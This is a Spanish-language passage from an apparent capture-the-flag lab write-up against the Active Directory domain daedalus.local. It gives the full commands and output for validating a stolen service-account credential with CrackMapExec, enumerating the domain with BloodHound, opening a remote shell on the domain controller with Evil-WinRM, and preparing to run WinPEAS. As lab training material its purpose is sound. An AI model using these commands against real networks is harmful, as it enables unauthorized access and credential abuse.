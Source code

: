 ```powershell
    Comment          :
    UserName         : DAEDALUS\svc_backup
    Credential       : jkQ**********

PS C:\Users\Administrator\Documents>
```

Se llevó a cabo una verificación de las credenciales del usuario svc_backup utilizando CrackMapExec, confirmando que estas credenciales son válidas a nivel de dominio.

```bash
❯ crackmapexec smb dc1.daedalus.local -u svc_backup -p jkQ**********
SMB         daedalus.local  445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:daedalus.local) (signing:True) (SMBv1:False)  
SMB         daedalus.local  445    DC1              [+] daedalus.local\svc_backup:jkQ**********
```

Con el fin de realizar una enumeración exhaustiva del dominio, se utilizó BloodHound. Se autenticó en BloodHound utilizando las credenciales del usuario svc_backup, y se guardó toda la información recopilada en un archivo ZIP para un posterior análisis y revisión.

```powershell
❯ bloodhound-python -u svc_backup -p jkQ********** -ns 192.168.10.6 -d daedalus.local -c All --zip  
INFO: Found AD domain: daedalus.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc1.daedalus.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to GC LDAP server: dc1.daedalus.local
INFO: Connecting to LDAP server: dc1.daedalus.local
INFO: Found 7 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 7 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WEB01.daedalus.local
INFO: Querying computer: DC1.daedalus.local
INFO: Done in 00M 34S
INFO: Compressing output into 20230901100806_bloodhound.zip
```

Tras cargar el archivo ZIP en BloodHound y analizar los datos, se identificó que el usuario svc_backup es miembro del grupo "Remote Management Users". Esto indica que el usuario tiene permisos para conectarse a WinRM (Windows Remote Management), lo que facilita la administración remota de sistemas Windows en la red.

Se procedió a establecer una conexión utilizando Evil-WinRM con el usuario svc_backup hacia el equipo DC1. Como resultado, se obtuvo una sesión de PowerShell que permitió leer una nueva bandera.

```powershell
❯ evil-winrm -i dc1.daedalus.local -u svc_backup -p jkQ********** 
PS C:\Users\svc_backup.DAEDALUS\Documents> whoami
daedalus\svc_backup
PS C:\Users\svc_backup.DAEDALUS\Documents> type ..\Desktop\flag.txt
ASCENSION{***********8****}
PS C:\Users\svc_backup.DAEDALUS\Documents>
```
Se procedió a utilizar el programa WinPEAS.exe para realizar una enumeración exhaustiva de la máquina. El archivo WinPEAS.exe fue cargado y ejecutado exitosamente en el sistema.

